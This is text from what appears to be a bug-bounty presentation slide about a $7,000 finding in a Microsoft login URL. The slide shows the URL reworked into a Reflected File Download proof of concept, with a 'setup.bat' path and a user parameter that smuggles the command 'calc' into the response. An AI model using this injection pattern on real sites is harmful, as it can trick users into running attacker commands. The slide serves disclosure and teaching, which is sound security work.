

(USD)$7,000
From:
https://login.microsoftonline.com/common/userrealm/?user=xxxxxxx@gmail.com&api-version=2.1&stsRequest=rQIIAeNisFLOKCkpKLbS1y_ILypJzNHLT0vLTE7VS87P1csvSs9MAbGKhLgECibvPLNWa5LrNO76xYk7LqSsYlTDqVM_[...]_ggADXoqL8IqCIrpGhibmRgamBhRkA0&checkForMicrosoftAccount=false
To:
https://login.microsoftonline.com/common/userrealm/setup.bat?user="||calc||&api-version=2.1

Result:
Reflected File Download

Authentication flow:
What Ifs? Out of box
27